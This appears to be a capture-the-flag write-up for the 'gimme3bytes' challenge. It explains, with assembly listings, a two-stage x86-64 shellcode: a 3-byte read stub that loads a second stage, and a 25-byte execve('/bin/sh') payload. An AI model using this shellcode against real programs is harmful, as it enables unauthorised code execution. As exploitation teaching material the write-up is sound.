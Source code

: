 # gimme3bytes

It reads 3 bytes from stdin and executes them as shellcode.

The idea is to run a multi-stage shellcode, where the first stage is a small shellcode that call the syscall `read` to read the second stage from stdin. The second stage is the actual shellcode that will be executed.

## First Stage (3 bytes)

```c
pop rdx
syscall
```

- RAX: already set to 0x0 (syscall number for `read`)
- RDI: already set to 0x0 (stdin)
- RSI: already set to the buffer address
- RDX: set using `pop rdx`. Why so? Because at that point the stack contains a large number that can be used as a buffer size

## Second Stage (25 bytes)

Main idea: `execve(RDI -> "/bin/sh", RSI = argv -> NULL, RDX = envp -> NULL)`

```c
nop
nop
nop
mov rdi, rsi
add rdi, 0x19
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
.string "/bin/sh"
```

Note: The first three `nop`s are there since the RIP after the first stage is set at the end of the buffer and cannot be changed. With the three `nop`s we push the second stage three bytes forward right where the RIP will be set and then `mov rdi, rsi` will be the first instruction executed.

- RDI: set to the buffer address + 25, to point to the string "/bin/sh"
- RAX: set to 0x3b (syscall number for `execve`)
- RSI: set to 0x0 (NULL)
- RDX: set to 0x0 (NULL)

The complete exploit is in [script.py](script.py).
